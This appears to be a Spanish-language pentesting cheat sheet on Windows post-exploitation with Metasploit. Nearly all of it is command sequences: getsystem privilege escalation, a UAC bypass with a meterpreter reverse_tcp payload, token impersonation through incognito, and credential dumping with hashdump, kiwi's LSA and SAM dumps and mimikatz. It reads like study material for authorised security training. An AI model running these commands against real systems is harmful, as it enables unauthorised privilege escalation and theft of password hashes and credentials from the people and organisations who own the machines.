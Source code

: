 ```bash
# Que users pertenecen a administrator
net localgroups administrators
```
- Elevar privilegios
```bash
getprivs 
getsystem
getuid
```

- UAC bypass
```bash
# Una vez hemos ganado meterpreter
search type:payload uac_injection
set session 1
use payload/windows/x64/meterpreter/reverse_tcp
back 
session 2
getsystem
getuid 
hashdump
```

- Windows Access Token, incognito
> Creados y Administrados por **lsass.exe**

> Identifica la seguridad de los procesos

>Son generados por **Winlogon.exe**, incluye la identidad y privilegios de la cuenta asociada al proceso

>Después se asocia con un **user.init** el cuál replica todos los privilegios del proceso padre

> Los siguientes privilegios los necesitaremos para impersonar a un user:

1. **SelmpersonatePrivilege:**
2. **SeCreateToken:**
3. **SeAssignPrimaryToken:**
> Explotación

```bash
load incognito
list_tokens -u
impersonate_token "COPIAMOS EL QUE SALE EN DELEGATION"
ps
migrate "PID de un proceso con PRIVILEGIOS el IMPERSONATE TOKEN"
getsystem
hashdump
```

- Mimikatz

> En el director **/usr/share/windows-resources/x64/mimikatz.exe** --> también tenemos el de x32

>Podemos subirle mimi y ejecutar desde ahí

```bash
#Buscar proceso en particular
pgrep lsass
migrate "numero lsass"
getsystem
load kiwi
help
lsa_dump_secrets
lsa_dump_sam
creds_all
upload /usr/share/windows-resources/x64/mimikatz.exe
shell
./mimikatz.exe
privilege::debug
```